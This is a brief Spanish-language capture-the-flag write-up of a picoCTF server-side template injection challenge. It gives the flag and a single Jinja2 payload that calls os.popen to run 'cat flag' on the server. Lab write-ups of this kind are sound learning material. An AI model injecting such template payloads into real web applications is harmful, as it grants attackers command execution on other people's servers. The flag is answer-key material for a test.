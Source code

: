 #Reto 
## Descripcion del reto
  
I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.
## Solucion
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
ponemos esto en el espacio {{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
![[Pasted image 20251009092024.png]]
y segun nos da la bandera
![[Pasted image 20251009091954.png]]

## Notas

## Referencias
